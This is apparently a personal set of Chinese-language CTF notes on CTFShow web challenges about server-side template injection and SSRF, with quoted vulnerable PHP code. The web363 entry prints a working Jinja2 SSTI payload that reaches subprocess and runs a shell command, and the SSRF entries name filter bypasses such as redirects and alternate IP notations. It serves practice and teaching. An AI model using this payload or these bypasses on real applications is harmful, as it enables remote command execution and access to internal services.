

# 2024-03-12

## CTFShow - web361 - SSTI

对应的请求链接为:

```url
http://xxxx.challenge.ctf.show/?name=123
```

首先知道了这道题是考 SSTI , 我直接就使用 SSTI 的决策树进行操作




## CTFShow - web362 -SSTI

对应的请求链接为:

```url
http://xxxx.challenge.ctf.show/?name=123
```

题目中告知我开始进行了过滤, 随后我进行了暴力测试


过滤 2、3, 随后继续进行测试, 发现和 web361 一样, 没什么说的

## CTFShow - web363 -SSTI

进行扫描发现过滤 `'`  `"`


随后进行相关查找, 搜索对应的 ByPass 手段

```
?name={{().__class__.__mro__[1].__subclasses__()[407](request.args.a,shell=True,stdout=-1).communicate()[0]}}&a=cat /flag
```

## CTFShow - web351 - SSRF

```php
<?php
    error_reporting(0);
    highlight_file(__FILE__);
    $url=$_POST['url'];
    $ch=curl_init($url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    $result=curl_exec($ch);
    curl_close($ch);
    echo ($result);
?>
```

使用 PHP 伪协议进行利用


## CTFShow - web352/web353 - SSRF

> 一样的 Payload 没什么意思

```php
<?php
    error_reporting(0);
    highlight_file(__FILE__);
    $url=$_POST['url'];
    $x=parse_url($url);
    if($x['scheme']==='http'||$x['scheme']==='https'){
        if(!preg_match('/localhost|127.0.0/')){
            $ch=curl_init($url);
            curl_setopt($ch, CURLOPT_HEADER, 0);
            curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
            $result=curl_exec($ch);
            curl_close($ch);
            echo ($result);
        }else{
            die('hacker');
    	}
    }else{
        die('hacker');
    }
?>
```

限制了开头必须为 `http` , 本来还想怎么绕过, 但是看这个样子估计是考察 IP 地址的不同写法


## CTFShow - web354 - SSRF

```php
<?php
	.....
    if($x['scheme']==='http'||$x['scheme']==='https'){
        if(!preg_match('/localhost|1|0|。/i', $url))
	......
?>
```

可以看到过滤更多了, 这里基本的手段就已经没用了, 改为使用 302 跳转的手法

```
spoofed.burpcollaborator.net = 127.0.0.1
```


## CTFShow - web355 - SSRF

```php
<?php
	.....
    if($x['scheme']==='http'||$x['scheme']==='https'){
        $host=$x['host'];
			if((strlen($host)<=5)){
	......
?>
```

改为限制 `host`  的长度, 这里可以使用一些 302 跳转, 当然也可以使用更换IP 地址写法


## HackmyVM - RUN

- [RUN](https://www.yuque.com/gulujili/ctf/carz3f86fxygcwnv)